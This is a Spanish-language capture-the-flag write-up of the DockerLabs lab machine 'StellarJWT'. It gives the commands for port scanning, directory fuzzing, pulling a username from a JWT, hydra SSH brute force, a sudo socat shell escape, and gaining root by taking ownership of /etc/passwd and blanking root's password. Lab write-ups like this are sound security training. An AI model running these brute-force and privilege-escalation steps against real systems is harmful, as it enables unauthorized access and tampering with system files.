










# 📘 Informe Técnico - Máquina: *StellarJWT*

* **Nivel:** Fácil
* **Propósito:** Aprender a identificar y explotar una vulnerabilidad en una aplicación web con autenticación basada en JWT.
* **Objetivo:** Obtener acceso root a la máquina a través de técnicas de enumeración, fuerza bruta y escalada de privilegios.

---



## 🛠️ Despliegue de la Máquina

Primero, descargamos el archivo `.zip` desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip stallarjwt.zip
```

Para desplegar la máquina usamos el siguiente comando:

```bash
sudo bash auto_deploy.sh stellarjwt.tar
```


Verificamos que la máquina esté activa con un `ping`:

```bash
ping -c1 172.17.0.2
```



---

## 🔎 Reconocimiento

Escaneo de puertos con `nmap` para descubrir servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```


Resultado:

* Puerto 22 → SSH
* Puerto 80 → HTTP (servidor web activo)

Usamos mi script personalizado `extractPorts` para filtrar los puertos importantes y luego hacemos un escaneo más detallado de versiones:

```bash
nmap -sCV -p22,80 172.17.0.2
```

---

## 🌐 Enumeración Web

Visitamos la página web principal pero no encontramos información útil. Por ello, iniciamos una búsqueda de directorios ocultos (fuzzing) usando `gobuster`:



```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Resultados encontrados:

* `/index.html` → Página principal
* `/universe/` → Imagen

---

## 🖼️ Análisis de Archivos

Accedemos al directorio `/universe/` y encontramos una imagen:

```bash
wget http://172.17.0.2/universe/universe.jpg
```

Analizamos su metadata con `exiftool`:

```bash
exiftool universe.jpg
```

No encontramos nada relevante.



---

## 🔑 Detección de JWT

Al revisar el código fuente de la web, notamos una cadena que parece un token JWT. Al investigar el nombre de la máquina (*stellarjwt*), confirmamos que está relacionada con tokens JWT.


Usamos el sitio [jwt.io](https://jwt.io/) para decodificar el token y obtenemos el nombre de usuario:

```
Usuario: neptuno
```



---

## 🧠 Ingeniería Social y Fuerza Bruta SSH

La página web pregunta:
**"¿Qué astrónomo alemán descubrió Neptuno?"**
Respuesta: **Johann Gottfried Galle**

Creamos una lista de contraseñas basada en este nombre:

```bash
nano contraseña.txt
```

Verificamos que el archivo no tenga espacios indeseados:

```bash
cat -A contraseña.txt
```

Realizamos fuerza bruta con `hydra`:

```bash
hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t 20
```

Resultado:

```
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
```



---

## 📥 Acceso Inicial (SSH)

Ingresamos al sistema con:

```bash
ssh neptuno@172.17.0.2
```

Revisamos los archivos del sistema y encontramos un archivo `.txt` con una contraseña:

```bash
ls -la
cat nasa.txt
```

Contraseña encontrada: **Eisenhower**

Nos conectamos como el usuario `nasa`:

```bash
su nasa
```

Verificamos privilegios sudo:

```bash
sudo -l
```

Salida:

```text
(elite) NOPASSWD: /usr/bin/socat
```

---

## 🚀 Escalada de Privilegios a usuario *elite*

La línea anterior indica que el usuario `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

**`socat` permite crear una shell interactiva si se ejecuta correctamente.**

Ejecutamos:

```bash
sudo -u elite /usr/bin/socat stdin exec:/bin/bash
```

Ahora somos el usuario `elite`.

Verificamos nuevamente permisos sudo:

```bash
sudo -l
```

Salida:

```text
(root) NOPASSWD: /usr/bin/chown
```

---

## 👑 Escalada de Privilegios a *root*

El usuario `elite` puede ejecutar `chown` como root. Esto nos permite cambiar el propietario de archivos críticos del sistema como `/etc/passwd`, que contiene la información de usuarios y contraseñas.

### ⚠️ Riesgo

Modificar `/etc/passwd` incorrectamente puede dejar el sistema inoperativo. Lo hacemos cuidadosamente:

1. Cambiar permisos para que `elite` pueda modificar `/etc/passwd`:

```bash
sudo chown elite:elite /etc/
sudo chown elite:elite /etc/passwd
```

2. Editamos la línea de root para quitarle la contraseña:

```bash
echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd
```

3. Nos convertimos en root:

```bash
su
```

Ahora somos root.




---

## ✅ Conclusión

* Logramos acceso inicial explotando JWT y usando ingeniería social.
* Accedimos vía SSH con `hydra` y credenciales deducidas.
* Escalamos privilegios a través de `socat` y luego abusamos de `chown` para modificar `/etc/passwd`.
* Acceso *root* obtenido con éxito.
